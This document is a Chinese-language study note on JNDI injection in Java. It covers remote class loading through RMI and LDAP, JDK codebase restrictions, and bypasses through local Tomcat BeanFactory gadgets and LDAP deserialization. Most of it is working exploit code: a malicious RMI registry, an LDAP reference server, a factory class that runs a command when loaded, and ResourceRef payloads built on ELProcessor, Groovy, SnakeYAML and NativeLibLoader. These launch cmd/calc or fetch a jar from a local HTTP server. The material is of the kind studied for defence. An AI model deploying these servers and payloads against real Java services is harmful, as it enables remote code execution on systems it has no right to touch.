








## JNDI概念

JNDI，java naming and directory interface，是一个用于根据名字查询对象或属性的接口，具体操作由各个provider实现，比如RMI、LDAP。可以查本地容器资源，比如tomcat的jdbc配置

```java
InitialContext ctx = new InitialContext();
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/mydb");
```

也可以查远程资源

```java
ctx.lookup("rmi://127.0.0.1:1099/xxx");
```

当客户端lookup的参数可控时，将导致 远程类加载、指定方法调用、反序列化的漏洞。

```java
package RMI.ClientAttacker.ByReference;  
  
import javax.naming.InitialContext;  
import java.io.IOException;  
  
public class RMIClient {  
    public static void main(String[] args) throws IOException, ClassNotFoundException {  
        String userInput = "";
        try {  
            InitialContext itx = new InitialContext();  
            Object obj = itx.lookup(userInput);  
//            System.out.println(obj.getClass());  远程方法调用
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

可利用版本如下


## 导致JNDI的lookup

```txt
LdapCtx.c_lookup()
ComponentContext.p_lookup()
PartialCompositeContext.lookup()
GenericURLContext.lookup()
ldapURLContext.lookup()
InitialContext.lookup()
```

## 远程类加载
JNDI可以lookup一个Reference资源，Reference相当于是一个如何创建对象的说明书，包括`目标类名，工厂类，工厂类地址`。客户端lookup，如果得到的是Reference对象, 会获取这个工厂类（本地或远程）并实例化，然后调用`factory.getObjectInstance`创建对象。factory会根据Reference中的目标类名来创建并返回对象。

因此存在任意远程类加载、本地类加载的安全问题


在javax.naming.spi.NamingManager#getObjectFactoryFromReference中
先尝试在本地中加载该工厂类，如果找不到，就在指定的远程中加载。


### RMI as provider

这时，如果这个工厂类是远程恶意类，在加载或实例化时，可以执行恶意代码。

具体举个例子，先启动一个注册表，绑定一个Reference，名字叫Exploit

```java
package RMI.ClientAttacker.ByReference;  
  
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import java.rmi.AlreadyBoundException;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class RMIRegistry {  
  
    public static void main(String[] args) {  
        try {  
            Registry registry = LocateRegistry.createRegistry(1099);  
            Reference reference = new Reference("Exploit","ExploitFactory","http://127.0.0.1:8888/");  
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);  
            registry.bind("Exploit", referenceWrapper);  
            System.out.println("RMI registry started...");  
        } catch (RemoteException | AlreadyBoundException | NamingException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

客户端lookup这个Exploit：`rmi://127.0.0.1:1099/Exploit`

当客户端lookup这个Exploit的时候，判断本地没有Exploit这个类，会去远程加载 `http://127.0.0.1:8888/ExploitFactory.class` 作为factory，然后去实例化这个类。如果这个类引用了其他自定义类，也会去查找对应类的class文件

因此创建一个ExploitFactory类，编译，并启动http目录服务
```java
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class ExploitFactory implements ObjectFactory{
	static{
		try {
			Runtime.getRuntime().exec("calc.exe");
		} catch (IOException e) {
		}
	}

	@Override
	public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment){
		return 1;
	}
}
```

这里getObjectInstance返回的结果，就是客户端lookup的最终结果，可以根据客户端希望的类来调整，就可以不报错。

在高版本jdk中，sink点com.sun.naming.internal.VersionHelper12#loadClass(java.lang.String, java.lang.String)中加上了条件


而默认情况下trustURLCodebase为false。所以上述方法无法再加载任意远程类。

### LDAP as provider

Server不管客户端lookup什么，都返回一个这样一个entry，客户端在收到后就会尝试远程加载ExploitFactory类

```java
e.addAttribute("javaClassName", "foo");
e.addAttribute("javaCodeBase", "http://127.0.0.1:8888");
e.addAttribute("objectClass", "javaNamingReference");
e.addAttribute("javaFactory", "ExploitFactory.class");
```

Server：

```java
package LDAP;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LDAPRefServer {

    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main(String[] args){

        int port = 11389;
        String codebase = "http://localhost:8888";
        String remoteFactoryClassName = "ExploitFactory.class";

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(codebase, remoteFactoryClassName));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private String codebase;
        private String remoteFactoryClassName;

        public OperationInterceptor (String cb, String cn) {
            this.codebase = cb;
            this.remoteFactoryClassName = cn;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                System.out.println("Send LDAP reference result for " + base + " redirecting to " + codebase + "/" + remoteFactoryClassName);

                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaCodeBase", codebase);
                e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
                e.addAttribute("javaFactory", remoteFactoryClassName);

                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
    }
}
```

客户端lookup之后，得到这些属性



javaClassName必须存在才会视为java对象相关项目做后续操作，然后客户端会判断是否存在objectClass键，以及对应值是否包含"javaNamingReference"，如果是则根据这些属性构建出一个Reference对象。



后续的就和RMI类似，根据Reference对象加载Factory，然后执行`getObjectInstance`



在JDK8u191中加上了trustURLCodebase选项


之后的版本利用主要是反序列化、本地类加载(？)

## RMI本地类加载

利用条件： tomcat8+或者SpringBoot 1.2.x+或其他有可以利用的factory类的环境

虽然无法加载远程factory，但是可以从本地加载，也就是说我们可以指定任意的本地factory进行加载、实例化、然后执行`factory.getObjectInstance`


### tomcat BeanFactory

依赖：tomcat-embed-core
版本：7.x, <= 8.5.78, <= 9.0.62, <= 10.0.20
效果：实例化类并执行指定函数（public，限参数为单个String类型）

这里factory可以用`org.apache.naming.factory.BeanFactory`

BeanFactory的`getObjectInstance`方法可以实例化我们指定的类，并获取bean的属性以及对应setter(`bi.getPropertyDescriptors`)，然后根据`ResourceRef`对象的ra，获取需要设置的属性以及对应的值，调用对应setter设置属性。

首先 Reference 类得换成 ResourceRef类进入if语句。


根据属性名获取并调用对应setter设置属性值


但在合适版本中，可以使用forceString属性来强制设置某个属性的setter，比如`forceString: x=eval`, 后续设置x的值的时候就会调用eval方法作为setter。`x: 1+1`，则执行`javax.el.ELProcessor#eval("1+1")`

但这个指定的函数必须是public，且只有一个String类型的参数


高版本禁用了forceString选项，无法指定指定setter方法


#### ELProcessor
 javax.el.ELProcessor#eval方法

完整tomcat容器或`tomcat-embed-el`依赖。
要存在`org.apache.el.ExpressionFactoryImpl`这个类才可以初始化。

tomcat 7中没有这个类，10以后叫 `jakarta.el.ELProcessor`

```java
package RMI;  
  
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.annotation.Resource;  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.AlreadyBoundException;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.sql.Ref;  
  
public class LocalFactoryRegistry {  
  
    public static ResourceRef getTomcatELProcessor() throws NamingException, RemoteException {  
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, null, null, true, "org.apache.naming.factory.BeanFactory", null);  
        ref.add(new StringRefAddr("forceString", "x=eval"));  
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));  
  
        return ref;  
    }  
  
    public static void main(String[] args) {  
        try {  
            Registry registry = LocateRegistry.createRegistry(11099);  
  
            // choose a payload  
            ResourceRef ref = getTomcatELProcessor();  
//            ResourceRef ref = getTomcatMLet();  
  
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
            registry.bind("Exploit", referenceWrapper);  
  
            System.out.println("RMI registry started...");  
        } catch (RemoteException | AlreadyBoundException | NamingException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

#### MLet

是JDK自带的一个类, 继承URLClassLoader。这里loadClass不会触发static块加载。

可以用来探测漏洞以及某个类是否存在。如果访问了远端`http://127.0.0.1:2333`，说明漏洞存在。

在URL前面先尝试加载一个类，如果后续还是访问了远端，说明这个类存在。

```java
public static ResourceRef getTomcatMLet()  throws NamingException, RemoteException {  
    ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",  
            true, "org.apache.naming.factory.BeanFactory", null);  
    ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));  
    ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));  
    ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));  
    ref.add(new StringRefAddr("c", "Blue"));  
    return ref;  
}
```

注意，在tomcat部署的app中，`javax.el.ELProcessor` 等类需要`webAppClassLoader`才能加载到，MLet加载不到不一定证明不存在这个类或不可利用（BeanFactory是用`webAppClassLoader`加载类的，可以加载到就可以用）。普通java程序（通过maven加载tomcat运行）可以加载到。


#### Groovy
需要额外的groovy依赖

groovy.lang.GroovyShell#evaluate，任意java代码执行

```java
public static ResourceRef getTomcatGroovyShell()  throws NamingException, RemoteException {  
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);  
    ref.add(new StringRefAddr("forceString", "x=evaluate"));  
    ref.add(new StringRefAddr("x","Runtime.getRuntime().exec(\"calc\")"));  
    return ref;  
}
```

groovy.lang.GroovyClassLoader#parseClass

```java
public static ResourceRef getTomcatGroovy()  throws NamingException, RemoteException {  
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);  
    ref.add(new StringRefAddr("forceString", "x=parseClass"));  
    String script = "@groovy.transform.ASTTest(value={\n" +  
            "    assert java.lang.Runtime.getRuntime().exec(\"calc\")\n" +  
            "})\n" +  
            "def x\n";  
    ref.add(new StringRefAddr("x",script));  
    return ref;  
}
```

#### Snakeyaml
依赖版本: 1.0 ~ 1.33
org.yaml.snakeyaml.Yaml#load

snakeyaml反序列化可用payload以及原理
https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90/

```java
private static ResourceRef tomcatSnakeyaml(){
    ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    String yaml = "!!javax.script.ScriptEngineManager [\n" +
            "  !!java.net.URLClassLoader [[\n" +
            "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
            "  ]]\n" +
            "]";
    ref.add(new StringRefAddr("forceString", "a=load"));
    ref.add(new StringRefAddr("a", yaml));
    return ref;
}
```

#### NativeLibLoader

com.sun.glass.utils.NativeLibLoader#loadLibrary 加载任意链接库, 配合文件上传RCE

```java
private static ResourceRef tomcat_loadLibrary(){
    ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
    ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
    return ref;
}
```

### MemoryUserDatabaseFactory
org.apache.catalina.users.MemoryUserDatabaseFactory

同样在tomcat下

### 其他
待学习...

https://y4er.com/posts/use-local-factory-bypass-jdk-to-jndi/

## LDAP反序列化

有两个反序列化的地方。

第一个是`com.sun.jndi.ldap.Obj#decodeObject`，判断服务端返回的属性中是否存在`javaSerializedData`，如果是直接反序列化，反序列化的对象和构建Reference是属于同一层级的，后。如果有gadget就可以打。



第二个是
`com.sun.jndi.ldap.Obj#decodeReference`，构建Reference时，如果type后面跟两个分隔符`#0#type##....`后续的数据会被base64解码后反序列化。反序列化的结果作为Reference的一个RefAddr项



发现这个函数其实注释说的很清楚



## LDAP本地类加载

从上面的RMI的利用代码可以看出来, 主要是三个参数：Factory、TargetClass、RefAddr(作为创建对象的参数)。ldap这里可以设置javaReferenceAddress参数。

注意这里javaReferenceAddress的写法，第一个字符`#`作为分割符，然后就是键值对。

```java
// 实际不可用
    public static Entry getTomcatELProcessor(String base){
        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "javax.el.ELProcessor");
        e.addAttribute("objectClass", "javaNamingReference");
        e.addAttribute("javaReferenceAddress", "#0#forceString#x=eval");
        e.addAttribute("javaReferenceAddress", "#1#x#\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")");
        e.addAttribute("javaFactory", "org.apache.naming.factory.BeanFactory");
        return e;
    }
```
这样能创建一个Reference对象，但是进入BeanFactory后，要求创建的Reference是ResourceRef类实例，所以这里没法直接用。



但是我们可以反序列化一个ResourceRef对象，在没有gadget可用的时候，可以打本地类加载。

```java
    public static Entry getTomcatELProcessor(String base) throws IOException {
        Entry e = new Entry(base);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, null, null, true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));
        
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(ref);

        e.addAttribute("javaSerializedData", baos.toByteArray());
        e.addAttribute("javaClassName", "foo");
        e.addAttribute("javaFactory", "org.apache.naming.factory.BeanFactory");
        return e;
    }
```